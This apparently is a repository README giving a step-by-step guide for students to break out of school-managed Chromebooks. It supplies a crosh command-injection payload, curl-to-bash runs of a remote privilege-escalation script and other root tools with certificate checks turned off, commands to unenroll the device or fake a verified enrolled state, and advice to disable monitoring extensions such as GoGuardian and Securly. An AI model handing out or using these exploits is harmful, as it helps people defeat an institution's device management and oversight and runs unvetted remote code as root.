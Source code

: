 # The ultimate exploit guide

For this set of exploits, you will need one (or two, if you want to use the unenrollment exploit easily) 8gb or larger USB drive(s), and a chromebook with a board that's either on chrome100 or cros.tech. There's no need to have your chromebook be compatible with sh1mmer, because this exploit uses only recovery images and traditional exploits.

If you're using one USB drive, then flash it with a copy of ChromeOS 81 for your chromebook's board. If you're using two drives, flash the first one with the same file. If this isn't your first time running this exploit, then you should already have the required recovery drives.

Plug your cros 81 drive into your chromebook and press `Esc+Refresh+Power`. Wait for the process to finish, then reboot and log in as normal, with your school account. Press `Ctrl+Alt+T`. If crosh opens, you can proceed to the next step. Otherwise, use LtBEEF or some other extension-removal exploit to disable whatever extension might be blocking crosh.

Inside of crosh, type in `set_cellular_ppp \';bash;exit;\'`. You should be dropped into a bash prompt. We now have to run a privelige escalation exploit, which is also hosted in this repo (https://github.com/rainestorme/resources/tree/main/80.sh). Run: `bash <(curl https://raw.githubusercontent.com/rainestorme/resources/main/80.sh)` and wait for it to finish.

You should be dropped into a *root* bash prompt (please, please, hold your applause). You now have two choices. You can:

- Unenroll your Chromebook, and, optionally, fakemurk it so that it appears to be verified

     or

- Leave your Chromebook in verified mode and run cedr

## Unenrollment and fakemurk

If you want to unenroll your Chromebook, just run: `vpd -i RW_VPD -s check_enrollment=0`. From there, press `Esc+Refresh+Power` and press `Ctrl+D`. Press enter, then wait for the chromebook to reboot. Press `Ctrl+D` if a screen shows up about verification being off, and wait for the chromebook to reboot in verified mode. All data should be cleared, and your chromebook will be unenrolled. You can setup your chromebook as normal, and sign in with a home account.

To fakemurk your Chromebook, you have to be unenrolled first. Update your Chromebook (it'll only update to v105) and press `Esc+Refresh+Power`. Press `Ctrl+D`, then enter. Wait the 5 minutes for your Chromebook to enter developer mode, then proceed with typical setup. When you get logged in, press `Ctrl+Shift+T` and type `shell`.

Before you do anything else, however, you need to set up some failsafes. Fakemurk in general is pretty tempramental, and if you mess something up you could easily destroy your installation of ChromeOS. Grab the USB drive you used earlier, or grab the second USB drive if you're using two drives. Install the Chromebook Recovery Tool from the chrome webstore and flash the drive with a v105 image, Just In Case You Fuck It Up™.

We're also going to install MrChromeBox's RW_LEGACY firmaware. Run:

```sh
cd; curl -LOk mrchromebox.tech/firmware-util.sh && sudo bash firmware-util.sh
```

And then press `1` and then enter. Wait for it to finish and proceed with the next step, running:

```sh
sudo su
bash <(curl -SLk https://github.com/MercuryWorkshop/fakemurk/releases/latest/download/fakemurk.sh)
```

If the last command errors, press `Esc+Refresh+Power` and recover your chromebook with the v105 drive to try again. Keep trying until it works.

Follow the instructions (be sure to respond "Y" for emergency backups, they're useful in a pinch) and wait for your Chromebook to reboot. Once it reboots, press `Ctrl+D` to continue the boot process. Wait for your Chromebook to enroll. If everything works correctly (as it rarely does) then you should be enrolled as normal, but will have the fakemurk components installed on your device. If enrollment takes a while and then complains about a missing certificate, don't panic! This is normal. Just press `Refresh+Power` and wait for the warning to pop up. Instead of pressing `Ctrl+D`, press space and enter to **disable developer mode**. **Immediately after pressing these keys, press `Refresh+Power`**. This will result in a "ChromeOS is missing or damaged" screen. Once again, this is supposed to happen. Press `Esc+Refresh+Power` and `Ctrl+D` again, **re-enabling developer mode**. There's no five-minute wait this time around, because the rootfs is already unverified and doesn't need to be changed. When you get back to the warning, press `Ctrl+D` to boot. Try to enroll now, and after a short wait, it should work. 

You should be able to use your Chromebook as an enrolled device, take enrolled tests, and do a ton of other fun things. Sometime in the future, I plan to release a tool allowing the opening of extra browser tabs during kiosk tests (because I know you skids would love that), but that's irrellevant.

Open up crosh (`Ctrl+Shift+T`). You might notice that it's been replaced by "mush", the fakemurk replacement for crosh. You can do a lot from here, but a few key options stand out. Obviously, you want to disable certain extensions, such as GoGuardian, Gopher Buddy and Securly. I don't personally reccomend using "Soft Disable Extensions", as it uses a lot of CPU. It's much easier to hard disable extensions and re-enable them later.

One of my favorite capabilities of fakemurk is to run an entire linux desktop environment side-by-side ChromeOS with Crouton. Select the option and wait for it to download the chroot environment to the device. Once you set a password and install the desktop, you can drop into a root bash shell and type `startxfce4` to start the crouton desktop. While you're running the desktop, you can press `Ctrl+Shift+Forward` and `Ctrl+Shift+Back` to get back and forth between the desktop environments.

Policies are also modified, courtesy of Pollen. You can do a lot of things that are normally restricted, such as accessing the webstore and downloading extensions, and installing unsigned apks.

## Cedr

Cedr is my own little pet project, allowing you to run Crouton on an enrolled Chromebook. The issue with Cedr is that it requires an external drive to store the chroot on. I reccomend using a MicroSD card for chroot storage, but a USB drive can also be used.

Insert the storage device (USB drive/MicroSD card) and find its block device. Run `fdisk -l` and try to identify the device you plugged in.

Cedr allows you to choose any desktop supported by Crouton in this step, but for the sake of simplicity I'll go with xfce4 for this tutorial. Run the following commands, replacing `/dev/sdX` with the block device representing your storage device:

```sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-bootstrap.sh | bash -s /dev/sdX xfce
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```

The drive should be unmounted automatically, and you can remove it.

To activate the desktop environment, you can plug in the device and identify its block device again (as above), or, if you never unplugged it from the last step, use the same one. Run:

```sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-mount.sh | bash -s /dev/sdX
```

You can freely swap back and forth between ChromeOS and Cedr at will. Once you're finished, log out of your session and run:

```sh
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```
